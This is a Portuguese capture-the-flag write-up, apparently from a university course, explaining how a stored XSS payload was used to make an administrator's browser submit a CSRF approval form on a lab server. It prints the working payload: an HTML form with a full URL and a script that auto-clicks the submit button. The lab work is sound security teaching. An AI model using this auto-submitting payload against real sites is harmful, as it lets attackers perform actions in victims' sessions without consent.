

# CTF XSS + CSRF

## 1\. Explorar o servidor web

Inserimos texto aleatório na caixa de input e submetemos o pedido.



Somos então redirecionados para uma nova página que mostrava que o nosso pedido não foi aprovado pelo administrador (não nos seria dada a flag). 


Esta continha ainda um link (na palavra ```page```) para outra página com dois botões desativados, onde o administrador pode fornecer a flag e marcar o pedido como lido.


## 2\. Investigar a página do administrador 

Começamos por perceber que esta página está alojada numa porta (5005) diferente da _home page_ (5004).

Ao inspecionarmos os vários elementos desta página, nomeadamente o botão ```Give the flag```, percebemos que a aprovação do pedido da flag é feita através de um form do tipo POST que aprova o pedido tendo em conta o seu id.

```html
<form method="POST" action="/request/2102ce504ff2e7a33cd92544df1d995879df338e/approve" role="form">     
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag" disabled>              
    </div> 
</form>
```

## 3\. Alterações no código

Reaproveitanto o código acima, fizemos três alterações que nos permitiram fazer a aprovação do pedido como administrador através da página inicial (princípios de Cross-site Scripting e Cross-site Request Forgery):
 - Alteramos o url do atributo ```action``` para conter o url completo do servidor uma vez que a porta da página de aprovação visitada pelo administrador é diferente da inicial.
 - Retiramos o atributo ```disabled``` do ```input``` para ativar o botão.
 - Criamos um pequeno script em JavaScript que clica no botão que criamos.

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/id/approve" role="form">     
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">              
    </div> 
</form>

<script> document.getElementById("giveflag").click(); </script>
```

## 4\. Explorar a vulnerabilidade

Após atualizarmos a página, para obter um novo id, submetemos o código alterado, substituindo o ```id``` no url presente no atributo ```action``` do form pelo respetivo id do novo pedido.
Somos redirecionados para uma nova página que fica disponível apenas por muito breves momentos e que logo é substituida pelo seguinte aviso:


## 5\. Desativar o JavaScript

Para conseguirmos visualizar a página com cuidado, desativamos o JavaScript do browser utilizado e voltamos a repetir o passo 4.
Após submetermos o pedido, atualizando a página, a flag fica disponível.


